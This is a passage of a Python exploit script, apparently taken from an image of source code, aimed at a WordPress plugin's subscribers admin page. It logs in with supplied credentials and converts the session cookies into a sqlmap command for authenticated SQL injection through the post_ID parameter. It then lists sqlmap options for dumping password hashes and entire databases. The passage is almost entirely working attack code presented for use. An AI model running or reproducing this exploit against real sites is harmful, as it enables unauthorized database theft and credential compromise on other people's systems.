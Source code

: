 password = args.PASSWORD



print('[*] Starting Exploit at: ' + str(datetime.now().strftime('%H:%M:%S')))

# Authentication:
session = requests.Session()
auth_url = 'http://' + target_ip + ':' + target_port + wp_path + 'wp-login.php'
check = session.get(auth_url)
# Header:
header = {
    'Host': target_ip,
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://' + target_ip,
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1'
}

# Body:
body = {
    'log': username,
    'pwd': password,
    'wp-submit': 'Log In',
    'testcookie': '1'
}
auth = session.post(auth_url, headers=header, data=body)

# SQL-Injection (Exploit):
# Generate payload for sqlmap
cookies_session = session.cookies.get_dict()
cookie = json.dumps(cookies_session)
cookie = cookie.replace('"}','')
cookie = cookie.replace('{"', '')
cookie = cookie.replace('"', '')
cookie = cookie.replace(" ", '')
cookie = cookie.replace(":", '=')
cookie = cookie.replace(',', '; ')
print('[*] Payload for SQL-Injection:')
exploitcode_url = r'sqlmap -u "http://' + target_ip + ':' + target_port + wp_path + r'wp-admin/admin.php?page=wpuf_subscribers&post_ID=1&status=1" '
exploitcode_risk = '--level 2 --risk 2 '
exploitcode_cookie = '--cookie="' + cookie + '" '
print('    Sqlmap options:')
print('     -a, --all           Retrieve everything')
print('     -b, --banner        Retrieve DBMS banner')
print('     --current-user      Retrieve DBMS current user')
print('     --current-db        Retrieve DBMS current database')
print('     --passwords         Enumerate DBMS users password hashes')
print('     --tables            Enumerate DBMS database tables')
print('     --columns           Enumerate DBMS database table column')
print('     --schema            Enumerate DBMS schema')
print('     --dump              Dump DBMS database table entries')
print('     --dump-all          Dump all DBMS databases tables entries')
